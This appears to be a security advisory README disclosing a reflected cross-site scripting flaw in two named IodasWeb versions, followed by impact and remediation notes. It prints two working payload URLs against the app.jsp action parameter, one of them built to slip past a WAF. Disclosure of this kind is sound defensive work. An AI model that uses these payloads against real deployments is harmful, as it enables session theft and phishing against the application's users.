 
# Reflected XSS

## 🛠️ Description

A vulnerability pertaining to **Reflected Cross-Site Scripting (XSS)** has been identified in multiple versions of the **IodasWeb** application.

- **Severity:** Medium

---

## ✅ Confirmed Affected Versions

- `v7.2-LTS.4.1-JDK7`
- `v7.2-RC3.2-JDK7`

---

## 💣 Payloads

### 🚨 Basic Payload

```html
WEBSITE.COM/astre/iodasweb/app.jsp?action=<img src=x onerror=alert(1)>
```
![Alt Text](images/1.png)
![Alt Text](images/2.png)
![Alt Text](images/3.png)
![Alt Text](images/4.png)
### 🕵️ Obfuscated Payload

In other versions of the application, the WAF may block the standard payload. However, it's still possible to inject HTML containing a malicious link using the following obfuscated vector:

```html
WEBSITE.COM/astre/iodasweb/app.jsp?action=<image/src=\\YOUR-LINK-WITHOUT-HTTP>
```
![Alt Text](images/5.png)
![Alt Text](images/6.png)

---

## ⚠️ Impact

The identified vulnerability results from **insufficient input validation** and **improper output encoding**, leading to a **Reflected Cross-Site Scripting (XSS)** issue. This allows an attacker to craft a malicious URL containing executable JavaScript code, which is reflected in the application’s response and executed in the victim’s browser.

### 🎯 Potential Consequences

- Actions performed on behalf of authenticated users
- Theft of session tokens
- UI defacement
- Redirection to malicious websites
- Social engineering/phishing attacks
- Unauthorized access to user accounts

> This significantly undermines user trust and can lead to data compromise if exploited.

---

## 🧪 Recommendation

It's recommended to:
- Sanitize and properly encode all user-supplied input.
- Implement Content Security Policy (CSP).
- Consider enabling the `HttpOnly` and `Secure` flags on cookies.
- Review the WAF settings and behavior across all application versions.

---

